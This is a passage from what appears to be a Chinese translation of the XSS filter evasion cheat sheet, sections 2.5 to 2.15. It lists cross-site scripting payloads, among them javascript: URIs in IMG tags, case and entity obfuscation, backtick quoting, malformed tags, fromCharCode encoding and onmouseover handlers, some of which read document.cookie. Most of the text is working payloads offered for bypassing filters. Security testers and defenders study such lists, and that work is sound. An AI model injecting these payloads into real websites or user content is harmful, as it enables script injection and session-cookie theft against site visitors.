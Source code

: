 <img src=”http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg“>

2.5.  通过JavaScript命令实现的图片XSS
图片注入使用JavaScript命令实现（IE7.0 不支持在图片上下文中使用JavaScript 命令，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理）：

<IMG SRC=”javascript:alert(‘XSS’);”>

2.6.  无分号无引号
<IMG SRC=javascript:alert(‘XSS’)>

2.7.  不区分大小写的XSS攻击向量
<IMG SRC=JaVaScRiPt:alert(‘XSS’)>

2.8.  HTML实体
必须有分号才可生效

<IMG SRC=javascript:alert(&quot;XSS&quot;)>

2.9.  重音符混淆
如果你的JavaScript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包含JavaScript 代码。这通常会有很大帮助，因为大部分跨站脚本过滤器都没有过滤这个字符：

<IMG SRC=`javascript:alert(“RSnake says, ‘XSS’”)`>

2.10.    畸形的A标签
跳过HREF标签找到XSS的重点。。。由DavidCross提交~已在Chrome上验证

<a onmouseover=”alert(document.cookie)”>xxs link</a>

此外Chrome经常帮你补全确实的引号。。。如果在这方面遇到问题就直接省略引号，Chrome会帮你补全在URL或脚本中缺少的引号。

<a onmouseover=alert(document.cookie)>xxs link</a>

2.11.    畸形的IMG标签
最初由Begeek发现（短小精湛适用于所有浏览器），这个XSS攻击向量使用了不严格的渲染引擎来构造含有IMG标签并被引号包含的XSS攻击向量。我猜测这种解析原来是为了兼容不规范的编码。这会让它更加难以正确的解析HTML标签：

<IMG “”"><SCRIPT>alert(“XSS”)</SCRIPT>”>

2.12.    fromCharCode函数
如果不允许任何形式的引号，你可以通过执行JavaScript里的fromCharCode函数来创建任何你需要的XSS攻击向量：

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

2.13.    使用默认SRC属性绕过SRC域名过滤器
这种方法可以绕过大多数SRC域名过滤器。将JavaScript代码插入事件方法同样适用于注入使用elements的任何HTML标签，例如Form,Iframe, Input, Embed等等。它同样允许将事件替换为任何标签中可用的事件类型，例如onblur,onclick。下面会给出许多不同的可注入事件列表。由David Cross提交，Abdullah Hussam(@Abdulahhusam)编辑。

<IMG SRC=# onmouseover=”alert(‘xxs’)”>

2.14.    使用默认为空的SRC属性
<IMG SRC= onmouseover=”alert(‘xxs’)”>

2.15.    使用不含SRC属性
<IMG onmouseover=”alert(‘xxs’)”>
